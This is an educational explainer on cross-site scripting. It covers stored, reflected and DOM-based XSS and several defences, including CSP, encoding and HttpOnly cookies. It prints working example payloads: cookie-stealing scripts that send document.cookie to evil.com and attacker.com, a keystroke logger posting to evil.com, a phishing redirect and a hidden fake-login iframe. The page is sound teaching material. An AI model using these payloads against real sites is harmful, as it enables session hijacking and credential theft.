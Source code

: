 


![xss.png](assets/xss.png){ align=right width=180 }


A Cross-Site Scripting (XSS) attack is a security vulnerability where an attacker injects malicious scripts into a website. These scripts execute in a user’s browser without their knowledge and can be used to:

- Steal login credentials or personal data.
- Hijack user sessions.
- Redirect users to malicious websites.
- Modify or deface web pages.

Unlike other attacks, XSS does not directly compromise the website server. Instead, it exploits how a website processes and displays user-generated content.

---

### Types of XSS Attacks

There are three main types of XSS attacks:

#### 1. Stored XSS (Persistent XSS)
- The malicious script is permanently stored on the website’s database.
- Every time a user visits the infected page, the script automatically executes in their browser.
- Common targets: Comment sections, forums, user profiles.

Example:
An attacker posts a comment on a website containing:
```html
<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
```

#### 2. Reflected XSS
- The malicious script is included in a URL or form input.
- It gets executed when a victim clicks a crafted link or submits a form.
- Common targets: Search bars, login forms, error messages.

Example:
A phishing email contains a link:
```html
http://example.com/search?q=<script>document.cookie</script>
```
If the website does not sanitize input, the script executes in the user’s browser.

#### 3. DOM-Based XSS
- The attack occurs entirely in the browser, modifying the Document Object Model (DOM).
- It does not rely on the server returning a malicious script.
- Common targets: Web applications using JavaScript frameworks.

Example:
A vulnerable web page contains:
```html
<script>
var search = document.location.hash;
document.write("Results for: " + search);
</script>
```
If an attacker sends a link like `http://example.com/#<script>alert('XSS')</script>`, the script executes when the page loads.

---

### Understanding XSS Payloads

An XSS payload is the malicious script or code used in a Cross-Site Scripting (XSS) attack. It is designed to execute in a victim’s browser when they visit an infected webpage.

Payloads can be used to:
- Steal user session cookies, allowing attackers to hijack accounts.
- Redirect users to malicious websites.
- Modify a website by injecting unwanted content.
- Execute harmful JavaScript commands.

---

### Common XSS Payloads

#### 1. Simple JavaScript Alert (Testing XSS Vulnerability)
Attackers often test if a website is vulnerable to XSS using a basic alert script:
```html
<script>alert('XSS Found!')</script>
```
If the alert appears in the browser, the site is vulnerable.

#### 2. Stealing Cookies
A malicious script can steal authentication cookies:
```html
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

#### 3. Keylogger Injection
An attacker can capture keystrokes entered on a page:
```html
<script>
document.onkeypress = function(e) {
 fetch('http://evil.com/keystrokes?key='+e.key);
}
</script>
```

#### 4. Redirecting Users to a Malicious Site
An attacker can force a user to visit a phishing page:
```html
<script>window.location.href='http://phishing-site.com';</script>
```

#### 5. Injecting an Invisible iFrame
An attacker can load a hidden login form to capture credentials:
```html
<iframe src="http://attacker.com/fake-login" style="display:none"></iframe>
```

---

### Preventing XSS Attacks

To protect against XSS vulnerabilities, follow these best practices:

#### 1. Input Validation and Sanitization
- Use server-side validation to reject scripts and harmful input.
- Sanitize user input by removing or escaping special characters.

#### 2. Content Security Policy (CSP)
- Implement a CSP header to restrict the execution of untrusted scripts:
```html
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com;
```

#### 3. Use HTML Encoding
- Encode special characters in user input to prevent script execution:
```html
& < > " ' / (encoded as &amp; &lt; &gt; &quot; &apos; &#x2F;)
```

#### 4. Avoid `innerHTML` and `document.write()`
- Use safe DOM methods like `textContent` instead of `innerHTML`:
```html
document.getElementById("output").textContent = userInput;
```

#### 5. Implement Secure Cookies
- Use the `HttpOnly` and `Secure` flags to prevent JavaScript from accessing cookies:
```html
Set-Cookie: sessionId=abc123; HttpOnly; Secure;
```

#### 6. Regular Security Audits
- Conduct code reviews and penetration testing to identify vulnerabilities.
- Use automated security scanning tools to detect potential XSS risks.

By applying these security measures, organizations can effectively reduce the risk of XSS attacks and safeguard user data.
